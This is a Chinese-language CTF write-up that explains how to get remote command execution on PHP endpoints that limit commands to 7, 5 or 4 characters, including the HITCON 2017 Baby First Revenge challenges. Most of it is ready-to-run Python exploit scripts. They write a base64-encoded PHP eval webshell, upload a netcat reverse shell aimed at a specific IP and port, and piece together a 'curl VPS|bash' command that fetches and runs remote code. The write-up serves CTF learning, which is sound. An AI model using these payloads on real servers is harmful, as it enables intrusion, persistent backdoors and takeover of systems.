# 7字符目录可写

首先需要知道

```
>可以创建文件

\表示这一行没结束，下一行继续跟上

*可以执行命令，第一个文件为命令，后面的文件为参数

. 可以将文件当脚本执行
```

例题

```php
<?php

# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2022-03-19 12:10:55
# @Last Modified by:   h1xa
# @Last Modified time: 2022-03-19 13:27:18
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

#flag in database;
error_reporting(0);
highlight_file(__FILE__);

$cmd = $_POST['cmd'];
if(strlen($cmd) <= 7){
    shell_exec($cmd);
}
?>
```

可以直接写一个webshell

```
# <?php eval($_GET[1]);
echo PD9waHAgZXZhbCgkX0dFVFsxXSk7|base64 -d>1.php
```

当然也可以是反弹shell的脚本，从后往前拼接即可，接下来用ls -t写入文件再执行

```
import requests
import time

url = "http://ed9441a5-6e27-43b0-8538-bdd2f5a5b4d2.challenge.ctf.show/"

payload=[
">hp",
">1.p\\",
">d\\>\\",
">\\ -\\",
">e64\\",
">bas\\",
">7\\|\\",
">XSk\\",
">Fsx\\",
">dFV\\",
">kX0\\",
">bCg\\",
">XZh\\",
">AgZ\\",
">waH\\",
">PD9\\",
">o\\ \\",
">ech\\",
"ls -t>0",
". 0"
]

def writeFile(payload):
    data={
    "cmd":payload
    }
    requests.post(url,data=data)

def run():
    for p in payload:
        writeFile(p.strip())
        print("[*] create "+p.strip())
        time.sleep(1)

def check():
    response = requests.get(url+"1.php")
    if response.status_code == requests.codes.ok:
        print("[*] Attack success!!!Webshell is "+url+"1.php")

def main():
    run()
    check()

    
if __name__ == '__main__':
    main()
```

单独拎出来的效果



# 7字符web目录不可写

仍然是上面的代码

PHP上传文件的时候，会先在临时目录下上传文件，我们写入反弹shell的脚本，然后通过

```
. /t*/*		# 执行/tmp/的任意脚本
```

脚本如下

```
import requests
import time

url = "http://538ae548-ca26-4dfc-af73-ded632f3b6be.challenge.ctf.show/"


def getShell(payload):
    data={
    "cmd":payload
    }
    file = {
    "file":b"#!/bin/sh\nnc 47.100.137.45 2233 -e /bin/sh"
    }
    requests.post(url,data=data,files=file)
    print("[*] Attack success!!!")

def run():
    getShell(". /t*/*")

def main():
    run()
    
if __name__ == '__main__':
    main()
```

# HITCON 2017 Baby First Revenge

```php
<?php
    echo $_SERVER['REMOTE_ADDR']."\n";
    $sandbox = '/var/www/html/sandbox/' . md5("orange" . $_SERVER['REMOTE_ADDR']);
    @mkdir($sandbox);
    @chdir($sandbox);
    if (isset($_GET['cmd']) && strlen($_GET['cmd']) <= 5) {
        @exec($_GET['cmd']);
    } else if (isset($_GET['reset'])) {
        @exec('/bin/rm -rf ' . $sandbox);
    }
    highlight_file(__FILE__);
```

可以直接传入cmd命令执行，但是限定长度5个字符，直接`ls -t>_`就不行了

先在docker里面试试



由于ls默认排序的原因，我们可以在5个字符的长度限制下，将如下写入一个文件，不过因为`ls\`的排序在最后，使用需要先将`ls\`写入`_`，然后在追加写入

```
ls\
 \
-t\
>g
```

到时候执行这个文件`sh _`，则可以将ls -t的内容写入一个文件g



接下来看这一段



写入后ls -t可以看到执行了一个反弹shell的命令



执行后拿到shell

```
import requests
from time import sleep
from urllib.parse import quote

payload = [
    # generate `ls -t>g` file `_`
    '>ls\\',
    'ls>_',
    '>\ \\',
    '>-t\\',
    '>\>g',
    'ls>>_',

    # generate `curl VPS|bash`
    # * 为隐去的 VPS ip 地址十进制的某位
    '>sh\ ',
    '>ba\\',
    '>\|\\',
    '>21\\',
    '>8.2\\',
    '>24\\',
    '>93.\\',
    '>47.\\',
    '>\ \\',
    '>rl\\',
    '>cu\\',
    #
    # # exec
    'sh _',
    'sh g',
]

for i in payload:
    assert len(i) <= 5
    r = requests.get('http://127.0.0.1:9999/test.php/?cmd=' + quote(i))
    print(i)
    sleep(0.2)		# 防止因为时间错乱倒是运行失败
```



# HITCON 2017 Baby First Revenge-V2

```
<?php
    echo $_SERVER['REMOTE_ADDR']."\n";
    $sandbox = '/var/www/html/sandbox/' . md5("orange" . $_SERVER['REMOTE_ADDR']);
    @mkdir($sandbox);
    @chdir($sandbox);
    if (isset($_GET['cmd']) && strlen($_GET['cmd']) <= 4) {
        @exec($_GET['cmd']);
    } else if (isset($_GET['reset'])) {
        @exec('/bin/rm -rf ' . $sandbox);
    }
    highlight_file(__FILE__);
```

和上面一样，这是命令执行的长度变成了四字符就不能再使用`ls>>_`了，这样就没有办法来生成`ls -t>g`

ls默认是按字典顺序排序，因为`- >`等符号在字母之前，前行需要追加写入才能生存`ls -t>g`，那可以尝试生成`g> t- sl`这样的命令，然后通过rev反转得到`ls -t>g`

不过这样又一个问题，实际上的排序，t在s后面，所以会变成`g> sl t-`，显然不符合要求

因为`-t`是ls的参数，所以我们可以在`-t`参数前加上一个在`g`之后，在`s`之前的参数，并且对顺序没有影响，所以可以用到h

最后构造的payload就是`g> ht- sl`，这样排序就是没问题的，然后反转后就是`ls -ht>g`

接下来就是利用通配符，假如有两个文件一个名为`cat`，一个名为`/flag`，那么执行`* *`就可以`cat /flag`了

`*` 相当于 `$(ls *)`，所以如果列出的第一个文件名为命令的话就会返回执行的结果，之后的作为参数传入。

但是这个也要考虑字母顺序的问题，因此，我们可以在当前目录下生成，`g>` `-th` `sl` `dir` 文件，通过 `*>g`（实际结果就是 `dir>g`），这里用 `dir` 而不是 `ls` 则是由于字典顺序的问题，这样 `dir` 在 `*` 命令执行后才是第一个被执行的命令，因此就能产生 `ls -ht > g` 的逆序文件，如果是`ls`的话会在`g`之后（也可以用k代替h）





```
import requests
from time import sleep
from urllib.parse import quote

payload = [
    # generate "g> ht- sl" to file "v"
    '>dir',
    '>sl',
    '>g\>',
    '>ht-',
    '*>v',

    # reverse file "v" to file "x", content "ls -th >g"
    '>rev',
    '*v>x',

    # generate `curl VPS|bash`
    # * 为隐去的 VPS ip 地址十进制的某位
    '>\;\\',
    '>sh\\',
    '>ba\\',
    '>\|\\',
    '>1\\',
    '>22\\',
    '>8.\\',
    '>24\\',
    '>3.\\',
    '>9\\',
    '>7.\\',
    '>4\\',
    '>\ \\',
    '>rl\\',
    '>cu\\',

    # got shell
    'sh x',
    'sh g',
]


for i in payload:
    assert len(i) <= 4
    r = requests.get('http://127.0.0.1:9999/test.php/?cmd=' + quote(i))
    print(i)
    sleep(0.1)
```



# 四字符无dir

我们依然来想办法构造ls -t



首先创建`空格，-t，>a，ls\`，写入到v中



接下来通过mv来`mv v vt`



接下来新建一个ls文件，cat文件，通过`*t`来执行`cat t vt`s输出到z中





这样就构造了一个`ls -t>a`，接下来就是和前面一样的，可以去写webshell可以写文件

```
import requests
from time import sleep
from urllib.parse import quote

payload = [
    # 生成ls -t>a
    '>\\ \\',
    '>-t\\',
    '>\\>a',
    '>ls\\',
    'ls>v',
    '>mv',
    '>vt',
    '*v*',
    '>ls',
    'l*>t',
    '>cat',
    '*t>z',

    # generate `curl VPS|bash`
    '>\;\\',
    '>sh\\',
    '>ba\\',
    '>\|\\',
    '>1\\',
    '>22\\',
    '>8.\\',
    '>24\\',
    '>3.\\',
    '>9\\',
    '>7.\\',
    '>4\\',
    '>\ \\',
    '>rl\\',
    '>cu\\',

    'sh z',
    'sh a',
]


for i in payload:
    assert len(i) <= 4
    r = requests.get('http://127.0.0.1:9999/test.php?cmd=' + quote(i))
    print(i)
    sleep(0.1)
```

至于不出网的情况就把命令换一下通过echo写webshell即可

```
echo base64｜base64 -d>1.php
```

# 写在最后

关于命令执行长度的限制，主要是构造`ls -t>a`，对于7字符，5字符，四字符都有不同的构造方式，初次之外在5字符也可以通过grep来操作，不过重点掌握四字符的基本上就能通杀，目的都是构造ls -t，记录一下grep的方式，想办法把内容追加到index.php中

```
import requests
import time

url = "http://ce2e69a5-b06c-4fee-ac56-054bd988dad5.challenge.ctf.show/"

payload=[
">grep",
">h",
"*>j",
"rm g*",
"rm h*",
">cat",
"*>>i",
"rm c*",
"rm j",
">cp",
"*"
]

def writeFile(payload):
    data={
    "cmd":payload
    }
    requests.post(url,data=data)

def run():
    for p in payload:
        writeFile(p.strip())
        print("[*] create "+p.strip())
        time.sleep(0.5)
    print("[*] Attack success!!!Webshell is "+url)

def main():
    run()

if __name__ == '__main__':
    main()
```


参考链接：

https://github.com/shimmeris/CTF-Web-Challenges/blob/master/RCE/hitcon-2017-babyfirst-revenge/writeup/README.md

https://xiaolong22333.top/index.php/archives/201/#5%E5%AD%97%E7%AC%A6%E6%9C%89dir%E5%91%BD%E4%BB%A4